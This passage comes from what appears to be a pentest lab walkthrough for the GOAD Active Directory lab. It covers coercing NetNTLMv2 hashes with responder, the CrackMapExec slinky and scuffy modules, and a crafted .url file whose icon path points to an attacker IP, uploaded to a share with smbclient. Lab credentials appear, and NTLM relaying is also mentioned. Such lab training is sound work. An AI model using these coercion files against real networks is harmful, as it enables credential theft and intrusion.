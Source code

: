 ![part13_cme_slinky.png](/assets/blog/GOAD/part13_cme_slinky.png)

- Launch responder and listen the network interface you use for goad (vboxnet0 or tun0):

```bash
responder -I tun0
```

- Go to the rdp screen with catelyn : `\\castelblack.north.sevenkingdoms.local\all`

![part13_rdp_to_slinky.png](/assets/blog/GOAD/part13_rdp_to_slinky.png)

- And you will receive Catelyn's NetNTLMv2 hash directly in responder :

![part13_slinky_result.png](/assets/blog/GOAD/part13_slinky_result.png)

> This coerce append automatically when the victim visit the share, no need to click! I let you imagine what append if you drop that kind of file on a common public share during your pentest.
{: .prompt-tip }

> Here the file start with a "." so it will be hidden if you don't activate show hidden file option.
> The coerce only append when the file is showed (so in a pentest i recommend to not use a filename starting with ".")
{: .prompt-info }

Obviously we could also do a ntlmrelayx to not smb signed server and get share access or admin access depending on the relayed authentication target.

- And to cleanup the slinky file : 

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true
```

### .scf : sucffy

- Cme also got an other module, with the name "scuffy" and it act exactly the same as slinky but with scf file.

### .url file

- We can do the same with a .url file: `vim clickme.url`

```
[InternetShortcut]
URL=http://click.me/pwned
WorkingDirectory=test
IconFile=\\10.10.10.6\%USERNAME%.icon
IconIndex=1
```

- Upload the file :

```
smbclient.py north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use all
put clickme.url
```

